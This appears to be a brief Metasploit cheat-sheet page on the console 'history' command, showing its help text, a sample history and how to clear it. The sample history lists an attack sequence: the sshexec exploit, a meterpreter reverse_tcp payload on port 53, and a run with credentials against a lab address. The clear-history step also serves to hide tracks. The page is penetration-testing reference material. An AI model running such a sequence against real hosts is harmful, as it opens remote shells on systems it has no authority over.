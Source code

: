 # 05 - History

Search Tag(s): #metasploit-framework #command-and-control

## 5.1 - Help Menu

```
msf > history -h
Usage: history [options]

Shows the command history.

If -n is not set, only the last 100 commands will be shown.
If -c is specified, the command history and history file will be cleared.
Start commands with a space to avoid saving them to history.

OPTIONS:

    -a, --all-commands  Show all commands in history.
    -c, --clear         Clear command history and history file.
    -h, --help          Help banner.
    -n <num>            Show the last n commands.
```

## 5.2 - Show Metasploit History Commands

```
msf > history
102  use exploit/multi/ssh/sshexec
103  options
104  show targets
105  set target 1
106  set payload linux/x64/meterpreter/reverse_tcp
107  options
108  set lport 53
109  run username=fox password=pass1234 rhosts=10.0.2.15
..[omitted]..
```

## 5.3 - Clear Metasploit History Commands

```
msf > history -c
```